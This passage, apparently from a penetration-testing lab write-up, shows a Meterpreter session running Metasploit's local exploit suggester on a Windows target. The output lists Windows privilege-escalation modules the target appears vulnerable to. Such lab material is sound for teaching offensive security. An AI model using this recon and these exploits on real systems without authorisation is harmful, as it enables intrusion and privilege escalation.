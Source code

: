 
Executing: `run post/multi/recon/local_exploit_suggester` will, as the name suggests, give us names of some potential exploits that we can make use of.

```console
meterpreter > run post/multi/recon/local_exploit_suggester

[*] MACHINE_IP - Collecting local exploits for x86/windows...
[*] MACHINE_IP - 170 exploit checks are being tried...
[+] MACHINE_IP - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] MACHINE_IP - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] MACHINE_IP - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] MACHINE_IP - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.                                                                         
 2   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.                                                          
 3   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.                                                                         
 4   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                         
 5   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                         
 6   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.                                                                         
 7   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.                                                                         
 8   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.                                                                         
 9   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.                                                                         

...
...
...
```
